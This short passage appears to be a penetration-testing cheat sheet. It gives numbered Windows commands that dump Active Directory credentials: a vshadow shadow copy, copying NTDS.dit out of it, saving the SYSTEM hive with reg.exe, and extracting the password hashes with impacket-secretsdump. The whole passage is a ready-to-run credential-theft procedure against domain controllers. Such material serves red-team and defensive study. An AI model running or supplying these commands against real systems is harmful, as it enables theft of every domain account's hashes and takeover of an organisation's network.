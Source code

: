 1. **Launch the vshadow utility, disabling writers to speed up backup creation and -p to store it on disk**
  
```cmd
vshadow.exe -nw -p C:  
```
  
  2. **Copy the NTDS.dit file**
  
```cmd
copy SHADOWCOPYDEVICENAME C:\ntds.dit.bak  
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2 C:\ntds.dit.bak  
```
  
3. **Grab the SYSTEM HIVE**

```cmd
reg.exe save hklm\system C:\system.bak  
```
  
4. **Parse the files locally**

```cmd
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```